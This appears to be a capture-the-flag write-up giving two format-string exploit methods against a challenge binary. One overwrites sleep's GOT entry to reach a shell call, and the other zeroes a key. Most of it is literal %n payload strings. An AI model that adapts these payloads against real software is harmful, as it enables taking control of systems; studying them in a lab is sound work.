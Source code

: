 Two methods:

# Method 1 (faster): redirect code execution with GOT override:
## Step 1: override the 20th stack value to sleep's GOT entry with the 14th stack value which is pointing to the 20th
%134520840x%14$n
## Step 2: override the GOT entry with the address after the if check for the key (where the call to sh is)
%134514333x%20$n
## Step 3: re-override the 20th stack value to the address of buf[] because for some reason the 4th printf in the loop writes to the address in the 20th stack value, so we write buf[]'s adress because it is harmless to write junk there
%134513664x%14$n
## Step 4: send junk just to pass the 4th printf
a
## GAIN SHELL



# Method 2: override key's value with 0
## Step 1: override the 20th stack value to a pointer to the first 4 bytes of key with the 14th stack value which is pointing to the 20th
%134520928x%14$n
## Step 2: override the 21th stack value to a pointer to the second 4 bytes of key with the 15th stack value which is pointing to the 21th
%134520932x%15$n
## Step 3: override key with 0
%20$n%21$n
## Step 4: re-override the 20th stack value to the address of buf[] because for some reason the 4th printf in the loop writes to the address in the 20th stack value, so we write buf[]'s adress because it is harmless to write junk there
%134513664x%14$n
## GAIN SHELL
